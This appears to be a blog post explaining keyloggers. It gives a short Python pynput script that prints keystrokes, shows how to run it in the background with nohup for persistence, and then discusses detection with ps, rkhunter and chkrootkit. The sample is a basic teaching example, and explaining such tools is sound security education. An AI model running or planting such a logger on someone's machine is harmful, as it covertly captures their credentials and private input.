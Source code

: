 ```yaml
---
layout: ../../layouts/BlogPostLayout.astro
title: "Building A Keylogger With Python"
author: Zaid Mukaddam
pubDate: 2022-09-10
comments: true
---
```


# Building A Keylogger With Python

How long does it take to write a keylogger in Python?

7 lines (if you count jump lines)!

## What Is A Keylogger?

“Keylogger” is short for “Keystroke logger”, as it records what you type on the keyboard. Such scripts are not necessarily evil, but threat actors use them all the time.

The most common approach is to record user inputs and send data to a remote server (e.g., C2). It’s highly efficient and can reveal very sensitive data such as credentials, emails, visited URLS, and many other details.

Keyloggers are a massive threat to security and privacy.

Here, we’ll see a quick example with the keyboard, but it can also log clipboard, screens (some prefer the term “screenloggers”), instant messages, or internet activities.

It’s also possible to embed keyloggers directly in the hardware, for example, between the CPU and the mouse/keyboard. In this case, the analysis requires a physical access, but the detection rate by anti-malware solutions would be significantly lower, perhaps null.

However, even software-based keyloggers can be pretty hard to detect.

## Practical Example In Python

```python
# keylogger.py
from pynput import keyboard

def display_keys(key):
    print(str(key))

with keyboard.Listener(on_press=display_keys) as l:
    l.join()
```

It uses the pynput package. You can definitely improve the code by adding more information like timestamps or store the results in a text file. The pynput package allows monitoring the mouse as well.

However, with the basic example above, you can get the following:

>   Key.space <br/>
    ‘i’<br/>
    ’n’<br/>
    ‘g’<br/>
    Key.space<br/>
    ’l’<br/>
    ‘i’<br/>
    ‘k’<br/>
    ’e’<br/>

As long as it runs on the machine, it can collect inputs.

## How To Run The Code

Install the package and start the script:

```
pip install pynput
python3 keylogger.py &
```

The & is to run the script in the background. If you need more “persistence,” you can combine it with the nohup command to complete the process even if the user logs out from the terminal:

```
nohup python3 keylogger.py &
```

## How To Detect Keyloggers
Our script would be detected at the speed of light:

```
ps aux | grep python
```

In real-world conditions and if it’s a Linux machine, you can try automated tools such as *rkhunter* or *chkrootkit* to detect known rootkits and malware. These tools cannot spot advanced keyloggers written by experienced hackers to evade detection, but script kiddies often use popular kits.

## Keyloggers Can Bypass Security Measures

Such sneaky spywares will keep recording data even after some security measures. Updating credentials and hardening configurations is still necessary but not sufficient.

Password managers are convenient but many solutions only copy-paste data from the manager to the browser. Technically speaking, malware could still intercept the data by sniffing all the network traffic, for example.

In any case, password managers are not designed to block keyloggers.

## Wrap Up

No system is immune to keyloggers. You can’t assume there’s no keylogger on a machine, especially if it has been attacked.

Monitoring outgoing traffic, behaviors and processes can help detect these annoying snitches. However, some situations require destructive analysis, perhaps complete reformat and fresh install, so ensure you backup critical files regularly.

